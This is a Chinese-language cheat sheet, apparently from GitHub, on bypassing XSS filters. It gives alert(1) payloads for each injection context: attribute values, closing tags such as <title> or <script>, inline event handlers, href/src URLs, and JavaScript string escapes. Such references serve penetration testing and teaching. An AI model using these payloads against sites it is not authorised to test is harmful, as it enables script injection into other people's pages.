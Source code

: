 # XSS绕过姿势总结

#### 0x01基本

##### 1.HTML Injection （代码注入）

```
当输入的payload，被插入到HTML标签或外部标签的属性值内时，则使用下面的方法进行测试，如果输入的内容被插入到了HTML注释，则在payload之前添加"->"

<svg οnlοad=alert(1)>
"><svg οnlοad=alert(1)>
```

##### 2.HTML Injection – Tag Block Breakout（HTML注入–标签闭合）

```
当输入的payload，被插入到以下标签的内部时，使用以下标签：<title> <style> <script> <textarea> <noscript> <pre> <xmp> <iframe> （</tag>为相应的html标签）。

</tag><svg οnlοad=alert(1)>
"></tag><svg οnlοad=alert(1)>
```

##### 3.HTML Injection - Inline （HTML注入-内联标签）

```
当输入的payload，被插入到HTML标签的属性值内，但该标签不能以大于号（>）进行闭合。<br>

"οnmοuseοver=alert(1) //
"autofocus οnfοcus=alert(1) //
```

##### 4.HTML Injection - Source（HTML注入-源）

```
当输入的payload，被作为以下HTML标签属性的值使用时：href，src，data或action。payload中的src属性值可以是一个URL或者"data:,alert(1)"。

javascript:alert(1)
```

##### 5.Javascript Injection (javascript注入)

```
当输入的payload，被插入到javascript标签块中的字符串定界值中时使用。

'-alert(1)-'
'/alert(1)//
```

##### 6.Javascript Injection - Escape Bypass (javascript注入-绕过)

```
当输入的payload，被插入到javascript标签块字符串定界值中，但具有单引号，可以尝试使用反斜杠注释进行绕过。

\'/alert(1)//
```
